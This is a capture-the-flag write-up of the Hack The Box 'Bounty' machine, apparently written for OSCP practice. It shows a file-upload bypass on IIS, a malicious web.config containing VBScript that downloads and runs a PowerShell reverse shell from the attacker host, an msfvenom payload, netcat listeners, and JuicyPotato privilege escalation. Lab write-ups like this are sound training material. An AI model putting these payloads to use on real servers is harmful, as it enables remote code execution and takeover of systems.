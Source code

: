 ```yaml
---
title: "Hack The Box - Bounty"
date: 2020-02-11
tags: [oscp, htb, windows]
collection: oscp-prep
published: true
layout: single
classes: wide
toc: true
toc_label: Table of Contents
headline: "Running ASPX code in web.config, and JuicyPotato"
picture: /assets/htb-bounty/machine_info.png
author_profile: true
---
```


![](images/machine_info.png)

## Enumeration

Initial Nmap scans show only TCP port 80 open, running IIS 7.5. This tells us it's either a Windows 7 or Server 2008 R2 target.

```
Nmap scan report for 10.10.10.93
Host is up, received syn-ack (0.054s latency).
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Navigating to the site gives us only an image of Merlin

![](images/merlin.jpg)

Running a scan with `dirsearch` gave me a directory called `/uploadedfiles`, which is directly inaccessible. It also gave me a file called `/transfer.aspx`, which gives a basic browse and upload button.

![](images/transfer_page.png)

---

## Initial Shell

### Testing the upload process

Being that we have a directory called `/uploadedfiles` and an upload form on `transfer.aspx`, we can assume that any files we upload with the form, will show up under `/uploadedfiles`. 

If we try to upload an ASP/ASPX file directly, we get an error telling us it's an invalid file. Same happens with a simple TXT file.

![](images/upload_invalid_file.png)

However, if we upload a PNG image, we get a positive result, and can pull up the image from `/uploadedfiles/machine_info.png`

![](images/uploaded_png.png)

![](images/uploaded_info_test.png)

So we have a method for uploading images, but how can we weaponize that?

A normal method of exploitation for something like this is the null-byte extension bypass. Basically, we feed the upload command to Burp, where we can change the file extension of the file name to something like `shell.aspx%00.png`.

To start, let's make an ASPX reverse shell with `msfvenom -p windows/powershell_reverse_tcp lhost=10.10.14.20 lport=7500 -f aspx -o shell.aspx.png`. This will create the shell for us, but add the `.png` extension at the end.

> Make sure you turn on Burp, and feed the web traffic through the proxy to capture the requests. Feed it to the Burp Repeater once you see it come through.

In Burp, we can change the filename in the request to include a null-byte, as shown below. YOu can also see that it worked, and uploaded our file as `shell.aspx` instead of `shell.aspx.png`.

![](images/burp_nullbyte_good.png)

However, when we try to pull up the shell via our browser, we get a server error. So this method works, but we still don't get code execution that we're looking for.

![](images/nullbyte_servererror.png)

### web.config

Another method to exploit a file upload function on IIS is to upload a `web.config` file. Normally this file is present in the root of the web directory, and contains certain options and configurations for the site. We can exploit this by inserting a commented section of ASP code, which the server will execute. [This page gives a great breakdown of the method](https://soroush.secproject.com/blog/tag/unrestricted-file-upload/).

We need to take some steps to setup this attack however:

- Copy the `Invoke-PowerShellTcp.ps1` script from the Nishang repository. We can copy it from our local repository with `cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .`
- Edit the copied version of the script, and add `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.20 -Port 7500` to the bottom, which triggers the command to auto-run, instead of just loading modules to memory.
- Open a listener with `nc -lvnp 7500`
- Start a Python HTTP server with `python -m SimpleHTTPServer 80`

We can now create a local `web.config` file with the below code:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.20/Invoke-PowerShellTcp.ps1')")
%>
```

Now that we have everything in place, we can upload `web.config` using the previous method. Once uploaded, navigate to `http://10.10.10.93/uploadedfiles/web.config` to trigger the exploit. When we check our listener, we can see our shell returned as expected, as user `merlin`.

![](images/initial_shell.png)

We can grab `user.txt` from `C:\users\merlin\desktop\user.txt`. Note that we can't see the file unless we use `ls -force` to display hidden items.

![](images/user_proof.png)

---

## Privilege Escalation

### Enumeration

When we run `systeminfo`, we can see some interesting information. First, we're on a Server 2008 R2 server, which we expected. Second, and more importantly, we see that no hotfixes have been applied to the machine. This means we'll likely have our choice of kernel exploits to choose from for privilege escalation.

![](images/systeminfo.png)

When we run `whoami /priv`, we can see that `merlin` has the `SeImpersonatePrivilege` setting enabled, which will allow us to use [JuicyPotato](https://ohpe.it/juicy-potato/) for escalation.

![](images/whoami_priv.png)

### JuicyPotato

We need to setup a few things before running the exploit:

- Copy the JuicyPotato exploit to the target.
  - Setup a SMB server with `sudo impacket-smbserver kali .`. Copy the JP executable to the target with `copy \\10.10.14.20\kali\JuicyPotato.exe`
- Modify out previously used `Invoke-PowerShellTcp.ps1` script to point to port 7600 instead of 7500.
- Create a batch script that will initiate a reverse shell as SYSTEM.
- Copy the batch script to the target with the same SMB server method
- Open a listener for the shell with `nc -lvnp 7600`
- Make sure you're Python HTTP server is still running as before.

The code for the batch script is below. You'll notice that it's the same basic command we ran before for the initial shell.

```batch
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.20/Invoke-PowerShellTcp.ps1')
```

Once all the pieces are in place, we can run the exploit on the target with `./JuicyPotato.exe -t * -p exploit.bat -l 9001`.

![](images/root_shell.png)

We can grab the `root.txt` flag from `C:\Users\Administrator\Desktop\root.txt`. And it's not hidden this time :-)

![](images/root_proof.png)